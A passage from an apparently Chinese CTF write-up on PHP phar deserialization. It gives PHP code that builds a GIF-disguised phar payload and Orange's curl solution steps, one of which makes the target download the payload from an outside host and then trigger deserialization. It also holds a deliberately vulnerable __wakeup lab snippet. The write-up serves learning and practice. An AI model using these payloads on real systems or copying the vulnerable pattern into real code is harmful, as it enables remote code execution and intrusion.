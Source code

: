 这个太完美了，完全符合我们要求，我们只要的精心构造一个包含 Admin 对象、包含 avatar.gif 文件，并且 stub 是 `GIF89a<?php xxx; __HALT_COMPILER();?>` 的 phar 文件然后上传上去，下一次请求通过 Phar:// 协议让 file_get_contents 请求这个文件就可以实现我们对 Admin 对象的反序列化了(有人可能会说为什么不直接用 phar:// 请求远程文件**，因为phar:// 不支持访问远程 URL** )

**生成 phar 的 paylod**

```php
<?php
class Admin {
    public $avatar = 'orz';  
} 
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['file.php'] = '<?php ?>';
$p->setMetadata(new Admin());
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
rename(__DIR__ . '/avatar.phar', __DIR__ . '/avatar.gif');
?>
```

这里还有一个点需要提一下(虽然和反序列化没什么直接关系)，就是我们通过 eval 创建的函数并不能帮我们拿到 flag 因为他是随机名称的，我们是无法预测的，实际上这是 Orange 的一个障眼法，我们真正要利用的是 eval 下面的 `$_GET["lucky"]();`

但是实际上我们的 $FLAG 也是一个匿名函数，但是匿名函数就真的没有名字了吗？非也，匿名函数的函数名被定义为

```
\000_lambda_" . count(anonymous_functions)++;
```

这里的count 会一直递增到最大长度直到结束，这里我们可以通过大量的请求来迫使Pre-fork模式启动的Apache启动新的线程，这样这里的随机数会刷新为1，就可以预测了

**下面给出 Orange 的解题过程**

```
# get a cookie
$ curl http://host/ --cookie-jar cookie

# download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# force apache to fork new process
$ python fork.py &

# get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```

#### 5.自己搭建靶场

**①unserialize()触发**

存在漏洞代码:

```php
<?php
class test{
function __wakeup(){
$p = $this->m;
$q = $this->code;
$p($q);
}
}
$a = getenv('HTTP_TEST');
$b = unserialize($a);
?>
```
